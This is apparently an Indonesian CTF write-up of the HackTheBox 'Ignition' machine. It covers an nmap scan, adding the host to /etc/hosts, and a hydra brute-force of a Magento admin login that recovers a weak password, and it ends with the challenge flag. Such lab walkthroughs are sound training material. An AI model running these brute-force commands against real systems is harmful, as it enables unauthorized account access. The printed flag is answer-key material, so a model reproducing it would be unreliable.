

Ignition merupakan mesin Tier 1 dari seri starting point pada platform HackTheBox. Selama pengerjaan saya menggunakan dua tools untuk menyelesaikan tantangan ini. Tools yang saya gunakan diantaranya `nmap` dan `hydra`

## Reconnaissance

Hal yang pertama yang harus kita lakukan adalah melakukan enumeration terhadap open port dan running services dengan menggunakan tools `nmap`.

```bash
└─$ sudo nmap -sV -sC -p- --min-rate=1000 -T4 10.129.33.10
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-11 21:59 WIB
Nmap scan report for 10.129.33.10
Host is up (0.26s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-title: Did not follow redirect to http://ignition.htb/
|_http-server-header: nginx/1.14.2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.22 seconds
```

### Analyze Scan Result

- Port 80 menjalankan service http server dengan versi nginx 1.14.2

Ketika kita melakukan check ke http header website, terdapat domain yang harus kita tambahkan ke dalam `/etc/hosts` kita agar website dapat kita akses.

```bash
└─$ curl -I 10.129.33.10                  
HTTP/1.1 302 Found
Server: nginx/1.14.2
Date: Tue, 11 Feb 2025 15:05:47 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Set-Cookie: PHPSESSID=q6gr0keg08tikp32foc1sk5i8q; expires=Tue, 11-Feb-2025 16:05:47 GMT; Max-Age=3600; path=/; domain=10.129.33.10; HttpOnly; SameSite=Lax
Location: http://ignition.htb/
Pragma: no-cache
Cache-Control: max-age=0, must-revalidate, no-cache, no-store
Expires: Sun, 11 Feb 2024 15:05:47 GMT
Content-Security-Policy-Report-Only: font-src data: 'self' 'unsafe-inline'; form-action secure.authorize.net test.authorize.net geostag.cardinalcommerce.com geo.cardinalcommerce.com 1eafstag.cardinalcommerce.com 1eaf.cardinalcommerce.com centinelapistag.cardinalcommerce.com centinelapi.cardinalcommerce.com 'self' 'unsafe-inline'; frame-ancestors 'self' 'unsafe-inline'; frame-src fast.amc.demdex.net secure.authorize.net test.authorize.net geostag.cardinalcommerce.com geo.cardinalcommerce.com 1eafstag.cardinalcommerce.com 1eaf.cardinalcommerce.com centinelapistag.cardinalcommerce.com centinelapi.cardinalcommerce.com www.paypal.com www.sandbox.paypal.com player.vimeo.com *.youtube.com 'self' 'unsafe-inline'; img-src assets.adobedtm.com amcglobal.sc.omtrdc.net dpm.demdex.net cm.everesttech.net widgets.magentocommerce.com data: www.googleadservices.com www.google-analytics.com www.paypalobjects.com t.paypal.com www.paypal.com fpdbs.paypal.com fpdbs.sandbox.paypal.com *.vimeocdn.com i.ytimg.com s.ytimg.com data: 'self' 'unsafe-inline'; script-src assets.adobedtm.com secure.authorize.net test.authorize.net www.googleadservices.com www.google-analytics.com www.paypalobjects.com js.braintreegateway.com www.paypal.com geostag.cardinalcommerce.com 1eafstag.cardinalcommerce.com geoapi.cardinalcommerce.com 1eafapi.cardinalcommerce.com songbird.cardinalcommerce.com includestest.ccdc02.com www.sandbox.paypal.com t.paypal.com s.ytimg.com www.googleapis.com vimeo.com www.vimeo.com *.vimeocdn.com www.youtube.com video.google.com 'self' 'unsafe-inline' 'unsafe-eval'; style-src getfirebug.com 'self' 'unsafe-inline'; object-src 'self' 'unsafe-inline'; media-src 'self' 'unsafe-inline'; manifest-src 'self' 'unsafe-inline'; connect-src dpm.demdex.net amcglobal.sc.omtrdc.net www.google-analytics.com geostag.cardinalcommerce.com geo.cardinalcommerce.com 1eafstag.cardinalcommerce.com 1eaf.cardinalcommerce.com centinelapistag.cardinalcommerce.com centinelapi.cardinalcommerce.com 'self' 'unsafe-inline'; child-src http: https: blob: 'self' 'unsafe-inline'; default-src 'self' 'unsafe-inline' 'unsafe-eval'; base-uri 'self' 'unsafe-inline';
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: SAMEORIGIN
```

Gunakan command berikut untuk menambahkan domain di file `/etc/hosts`

```bash
└─$ sudo echo "10.129.33.10 ignition.htb" | sudo tee -a /etc/hosts
```

Ketika diakses halaman seperti gambar dibawah ini. Kita tahu bahwa website ini dibuat dengan menggunakan CMS `Magento`.



## Foothold

Kita coba lakukan login ke website sebagai admin dengan menggunakan `hydra` untuk melakukan brute force password.


```bash
└─$ hydra -l admin -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt ignition.htb http-post-form "/login:username=^USER^&password=^PASS^:S=302"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-11 22:27:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking http-post-form://ignition.htb:80/login:username=^USER^&password=^PASS^:S=302
[80][http-post-form] host: ignition.htb   login: admin   password: qwerty123
1 of 1 target successfully completed, 1 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-11 22:27:42
```

Dan kita telah berhasil login.

## Flag


```bash
797d6c988d9dc5865e010b9410f247e0
```